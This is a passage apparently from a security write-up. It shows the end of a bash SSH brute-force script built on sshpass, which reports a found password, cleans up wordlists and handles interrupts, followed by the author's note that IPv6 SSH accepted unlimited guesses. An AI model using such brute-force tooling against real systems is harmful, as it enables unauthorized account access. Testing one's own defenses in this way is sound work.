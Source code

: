 ```bash
 dt2=$(echo "$dt-86400*$dd" | bc)
 dh=$(echo "$dt2/3600" | bc)
 dt3=$(echo "$dt2-3600*$dh" | bc)
 dm=$(echo "$dt3/60" | bc)
 ds=$(echo "$dt3-60*$dm" | bc | awk '{printf("%.2f\n", $1)}')

 if [ "$dd" == "0" ] ; then dd=""; else dd=${dd}"d "; fi
 if [ "$dh" == "0" ] ; then dh=""; else dh=${dh}"h "; fi
 if [ "$dm" == "0" ] ; then dm=""; else dm=${dm}"m "; fi

 echo "Ellapsed time: "${dd}""${dh}""${dm}""${ds}"s"
}

function evaluate_result {
    [ -f "$pthdir/01xza01.txt" ] && rm "$pthdir/01xza01.txt"                         # We don't need last saved password when script kills itself (password found) or
    if [ -f "$pthdir/x0x901f22result.txt" ]; then                                    # Display found username and password when password is found
       cat "$pthdir/x0x901f22result.txt"
       ellapsed_time
    else
       echo "*** Password not found, use other dictionary ***"
    fi
    [ -f "$inituserlist".new ] && rm "$inituserlist".new                              # delete files $inituserlist.new and $initpasslist.new
    [ -f "$initpasslist".new ] && rm "$initpasslist".new                              # they're created when interrupted guessing is used   
    pkill sshpass  
}

function monitor_signal {
 trap 'pkill sshpass; echo "Program teminated."; exit' SIGHUP SIGTERM SIGQUIT                             # kill sshpass when script finishes or
 trap 'pkill sshpass; echo "Ctrl+C detected, start script again to continue with attack"; exit' SIGINT    # it is interrupted / suspended
 trap 'pkill sshpass; echo "Ctrl+Z detected, start script again to continue with attack"; exit' SIGTSTP
}


### BODY ###

read_args $@
check_args
monitor_signal
launch_attack
```

For the sake of testing if IPv6 activity was being monitored, I ran the script, using the character word list I had created as both the username and password list. It iterated through every combination, without any timeouts, which indicated that IPv6 was open to a brute force attack.
